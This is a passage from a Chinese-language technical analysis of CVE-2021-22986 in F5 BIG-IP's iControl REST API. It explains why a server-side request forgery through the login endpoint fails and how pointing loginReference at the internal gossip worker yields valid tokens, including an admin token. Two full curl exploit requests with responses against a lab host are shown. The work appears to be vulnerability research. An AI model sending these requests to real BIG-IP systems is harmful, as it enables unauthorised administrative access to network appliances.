 根据前面分析可知，loginState 各字段的赋值来源于对目标 url 访问返回的 json 数据。而此时我们传进去的 userReference 字段是 null 的，所以触发了 state.user==null，获取 token 会失败，这是最根本的原因。

所以要想正常获取 token 需要我们利用 ssrf 访问的 url 返回的 json 数据包含 userReference 字段。只需要找到一个能返回 userReference 字段的 worker(url) 即可。

在经过查找后，

gossip worker(/mgmt/shared/gossip) 符合条件：

```
➜  CVE-2021-22986 git:(master) ✗ curl -ks https://192.168.190.136/mgmt/shared/authn/login -d '
{"username":"","bigipAuthCookie":"","userReference":
{"link":""},"loginReference":{"link":"http://localhost/mgmt/shared/gossip"}}'
{"username":"","bigipAuthCookie":"","loginReference":
{"link":"http://localhost/mgmt/shared/gossip"},"token":
{"token":"F7B7234EB5G2DAZPKYZJZZE6I3","name":"F7B7234EB5G2DAZPKYZJZZE6I3","userName":"","user":{"link":""},"timeout":1200,"startTime":"2021-03-25T08:01:02.827-0700","address":"192.168.190.1","partition":"
[All]","generation":1,"lastUpdateMicros":1616684462826871,"expirationMicros":1616685662827000,"kind":"shared:authz:tokens:authtokenitemstate","selfLink":"https://localhost/mgmt/shared/authz/tokens/F7B7234EB5G2DAZPKYZJZZE6I3"},"generation":0,"lastUpdateMicros":0}
```

所以利用 ssrf 访问该 url 可正常获取 token：

```
➜  CVE-2021-22986 ✗ curl -ks https://192.168.190.136/mgmt/shared/authn/login -d '{"username":"admin","bigipAuthCooki
e":"","userReference":{"link":""},"loginReference":{"link":"http://localhost/mgmt/shared/gossip"}}'
{"username":"admin","bigipAuthCookie":"","loginReference":
{"link":"http://localhost/mgmt/shared/gossip"},"token":
{"token":"GFCDZ5OHG26QRMFKKETVAV2M6Q","name":"GFCDZ5OHG26QRMFKKETVAV2M6Q","userName":"admin","user":{"link":""},"timeout":1200,"startTime":"2021-03-25T07:51:35.742-0700","address":"192.168.190.1","partition":"
[All]","generation":1,"lastUpdateMicros":1616683895741691,"expirationMicros":1616685095742000,"kind":"shared:authz:tokens:authtokenitemstate","selfLink":"https://localhost/mgmt/shared/authz/tokens/GFCDZ5OHG26QRMFKKETVAV2M6Q"},"generation":0,"lastUpdateMicros":0}
```